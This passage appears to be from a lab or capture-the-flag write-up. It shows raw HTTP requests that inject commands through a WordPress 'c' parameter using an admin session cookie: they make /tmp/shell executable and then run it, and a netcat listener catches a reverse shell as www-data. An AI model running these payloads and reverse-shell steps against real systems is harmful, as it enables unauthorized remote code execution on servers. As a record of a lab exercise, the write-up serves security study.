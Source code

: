Set permissions of the binary on the target
payload `chmod +x /tmp/shell`
```bash
GET /wordpress/?c=%63%68%6d%6f%64%20%2b%78%20%2f%74%6d%70%2f%73%68%65%6c%6c HTTP/1.1
Host: 192.168.235.50
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_e37610d84c63d90bb61a8f78587cb4b4=admin%7C1692123822%7Ca82dd7f4b146ca21c0c02cbfda541041; wp-settings-time-2=1691952180
Connection: close
```

Start listener for reverse shell on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Trigger reverse shell on target
payload `/tmp/shell`
```bash
GET /wordpress/?c=/tmp/shell HTTP/1.1
Host: 192.168.235.50
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_e37610d84c63d90bb61a8f78587cb4b4=admin%7C1692123822%7Ca82dd7f4b146ca21c0c02cbfda541041; wp-settings-time-2=1691952180
Connection: close
```

Catch connection from target
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.235.50: inverse host lookup failed: Unknown host
connect to [192.168.45.186] from (UNKNOWN) [192.168.235.50] 58652
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> We got a reverse shell!
{: .prompt-info }
